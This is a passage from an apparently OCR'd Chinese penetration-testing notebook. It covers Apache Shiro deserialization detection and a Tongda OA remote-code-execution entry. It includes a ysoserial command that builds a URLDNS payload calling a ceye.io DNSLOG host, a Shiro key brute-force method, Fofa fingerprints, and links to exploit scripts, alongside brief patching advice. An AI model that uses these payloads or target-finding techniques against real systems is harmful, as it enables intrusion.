 2\. 使用 URLDNS 进行检测提速

使用适应性最强的 URLDNS(这个不受 JDK 版本和安全策略影响, 除非网络限制不能出 DNS) 进行检测且可以使用 ysoserial 提前生成序列化内容 java-jartarget/ysoserial-0.0.5-SNAPSHOT-all.jarURLDNS "http://1234567890.test.ceye.io" > urldns.ser 然后使用占位符 + 目标 url hash 的方法修改序列化内容中的 urldns 地址提高检测速度以及后续检测无需使用 ysoserial

例如 1234567890.test.ceye.io 可以换成 md5('www.qq.com').hexdigest() \[:10\].test.ceye.io 也就是 9d2c68d82d.test.ceye.io 可以预先记录 hash9d2c68d82d www.qq.com 然后进行 hash 查表就可以知道是 DNSLOG 来自哪个目标, 性能会提高不少

3\. 已知目标使用了 Shiro, 可以采取 Shiro-721 的报错逻辑来进行遍历 key 这样即使 DNS 不能出网, 也可以通过是否返回 rememberMe=deleteMe 来断定 shiro key 的正确性, 前提是服务器有 rememberMe=deleteMe 相关回显

**8\. 防护方法**

1\. 升级 Shiro 到最新版

2\. 升级对应 JDK 版本到 8u191/7u201/6u211/11.0.1 以上

3.WAF 拦截 Cookie 中长度过大的 rememberMe 值  

2  

通达 OA 远程代码执行漏洞
==============

**1.** **漏洞简介**

通达 OA 在国内的用户也比较多, 虽说代码加了密, 奈何是 Zend5.4, 解码很简单, 然后代码中的漏洞就很清楚, 尤其是变量覆盖和注入

**2.** **影响组件**

通达 OA

**3.** **漏洞指纹**

"/images/tongda.ico">

Office Anywhere 20xx 版网络智能办公系统

/ispirit/interface/gateway.php

**4\. Fofa Dork**

app="通达 OA"

**5.** **漏洞分析**

note/readme.md at c28f7b232ad5f0ff7ccc672bbedcd34e9e3cca86 leezp/note  
https://github.com/leezp/note/blob/c28f7b232ad5f0ff7ccc672bbedcd34e9e3cca86/20200313%E9%80%9A%E8%BE%BEOA/readme.md

代码审计 | 通达 OA 任意用户登录漏洞（匿名 RCE）分析 | zrools  
https://www.zrools.org/2020/04/23/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-%E9%80%9A%E8%BE%BEOA-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E%EF%BC%88%E5%8C%BF%E5%90%8DRCE%EF%BC%89%E5%88%86%E6%9E%90/

**6.** **漏洞利用**

NS-Sp4ce/TongDaOA-Fake-User: 通达 OA 任意用户登录漏洞  
https://github.com/NS-Sp4ce/TongDaOA-Fake-User

tools/tongda\_v11.4\_rce\_exp.py at master · zrools/tools 管理员伪造后 sql 写 shell  
https://github.com/zrools/tools/blob/master/python/tongda\_v11.4\_rce\_exp.py

